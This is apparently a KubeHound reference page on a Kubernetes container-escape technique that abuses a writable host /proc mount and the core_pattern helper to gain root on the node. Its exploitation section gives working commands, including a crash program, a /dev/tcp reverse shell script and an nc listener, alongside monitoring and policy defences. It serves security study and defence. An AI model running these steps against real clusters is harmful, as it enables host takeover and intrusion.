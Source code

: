 <!--
id: CE_UMH_CORE_PATTERN
name: "Container escape: through core_pattern usermode_helper"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_UMH_CORE_PATTERN

Container escape via the `core_pattern` `usermode_helper` in the case of an exposed `/proc` mount.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

[/proc/sys/kernel/core_pattern](https://man7.org/linux/man-pages/man5/core.5.html) defines a program which is executed on core-file generation (typically a program crash) and is passed the core file as standard input if the first character of this file is a pipe symbol `|`. This program is run by the root user and will allow up to 128 bytes of command line arguments. Attacker control of this progam would allow trivial code execution within the container host given any crash and core file generation (which can be simply discarded during a myriad of malicious actions). With write access to the host `/proc` directory and no additional privileges, an attacker can abuse this to escape a container and gain root on the containing K8s node.

## Prerequisites

Execution within a container process with the host `/proc/sys/kernel` (or any parent directory) mounted inside the container.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_UMH_CORE_PATTERN.yaml).

## Checks

Determine mounted volumes within the container as per [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks). If the host `/proc/sys/kernel` (or any parent directory) is mounted, this attack will be possible. Example below.

```bash
$ cat /proc/self/mounts

...
proc /hostproc proc rw,nosuid,nodev,noexec,relatime 0 0
...
```

## Exploitation

First find the path of the container’s filesystem on the host. This can be done by retrieving the current mounts (see [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks)). Looks for the `upperdir` value of the overlayfs entry associated with containerd:

```bash
$ cat /etc/mtab
...
overlay / overlay rw,relatime,lowerdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/27/fs,upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/fs,workdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/work 0 0
...

# Store path in a variable for future use
$ OVERLAY_PATH=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/fs
```

Oneliner alternative:

```bash
export OVERLAY_PATH=$(cat /proc/mounts | grep -oe upperdir=.*, | cut -d = -f 2 | tr -d , | head -n 1)
```

Next create a mini program that will crash immediately and generate a kernel coredump. For example:

```bash
echo 'int main(void) {
	char buf[1];
	for (int i = 0; i < 100; i++) {
		buf[i] = 1;
	}
	return 0;
}' > /tmp/crash.c && gcc -o crash /tmp/crash.c
```

Compile the program and copy the binary into the container as crash. Next write a shell script to be triggered inside the container’s file system as `shell.sh`:

```bash
# Reverse shell
REVERSE_IP=$(hostname -I | tr -d " ") && \
echo '#!/bin/sh' > /tmp/shell.sh
echo "sh -i >& /dev/tcp/${REVERSE_IP}/9000 0>&1" >> /tmp/shell.sh && \
chmod a+x /tmp/shell.sh
```

Finally write the `usermode_helper` script path to the `core_pattern` helper path and trigger the container escape:

```bash
cd /hostproc/sys/kernel
echo "|$OVERLAY_PATH/tmp/shell.sh" > core_pattern
sleep 5 && ./crash & nc -l -vv -p 9000
```

## Defences

### Monitoring

+ Use the Datadog agent to monitor for creation of new `usermode_helper` programs via writes to known locations, in this case `/proc/sys/kernel_core_pattern`.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/proc` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [EscapeUmhCorePattern](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_umh_core_pattern.go)

## References:

+ [Compendium Of Container Escapes](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf)
+ [Sensitive Mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
+ [Escaping privileged containers for fun](https://pwning.systems/posts/escaping-containers-for-fun/)
